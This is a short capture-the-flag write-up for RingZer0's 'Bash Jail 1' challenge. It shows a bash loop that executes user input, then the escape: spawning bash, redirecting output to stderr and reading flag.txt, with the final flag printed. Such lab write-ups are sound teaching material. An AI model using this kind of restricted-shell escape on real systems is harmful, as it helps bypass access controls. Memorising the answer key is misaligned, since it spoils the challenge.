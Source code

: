 # Bash Jail 1

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Jail Escaping
- **Points:** 1

## Provided Materials

- SSH credentials

## Solution

Challenge bash code:

```sh
while :
do
	echo "Your input:"
	read input
	output=`$input`
done 
```

We can execute `bash` command to spawn a shell:

```sh
Your input:
bash
level1@jail-bash:~$
```

But when we execute commands, we don't see any output, so we need to redirect our `stdout` to `stderr`:

```sh
level1@jail-bash:~$ ls 1>&2
flag.txt  prompt.sh
```

And output `flag.txt`:

```sh
level1@jail-bash:~$ cat flag.txt 1>&2
FLAG-U96l4k6m72a051GgE5EN0rA85499172K
```

## Final Flag

`FLAG-U96l4k6m72a051GgE5EN0rA85499172K`

*Created by [bu19akov](https://github.com/bu19akov)*